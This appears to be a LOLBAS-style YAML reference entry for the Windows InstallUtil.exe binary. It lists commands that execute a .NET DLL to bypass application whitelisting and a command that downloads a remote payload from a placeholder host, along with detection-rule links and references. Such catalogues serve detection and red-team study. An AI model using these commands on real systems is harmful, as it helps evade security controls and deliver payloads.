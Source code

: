 ```yaml
---
Name: Installutil.exe
Description: The Installer tool is a command-line utility that allows you to install and uninstall server resources by executing the installer components in specified assemblies
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
    Description: Execute the target .NET DLL or EXE.
    Usecase: Use to execute code and bypass application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
      - Input: Custom Format
  - Command: InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
    Description: Execute the target .NET DLL or EXE.
    Usecase: Use to execute code and bypass application whitelisting
    Category: Execute
    Privileges: User
    MitreID: T1218.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
      - Input: Custom Format
  - Command: InstallUtil.exe https://example.com/payload
    Description: It will download a remote payload and place it in INetCache.
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe
  - Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_instalutil_no_log_execution.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_installutil_download.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/cc241c0b5ec590d76cb88ec638d3cc37f68b5d50/rules/windows/defense_evasion_installutil_beacon.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
Resources:
  - Link: https://pentestlab.blog/2017/05/08/applocker-bypass-installutil/
  - Link: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_12
  - Link: https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.004/T1218.004.md
  - Link: https://www.blackhillsinfosec.com/powershell-without-powershell-how-to-bypass-application-whitelisting-environment-restrictions-av/
  - Link: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - Link: https://docs.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```


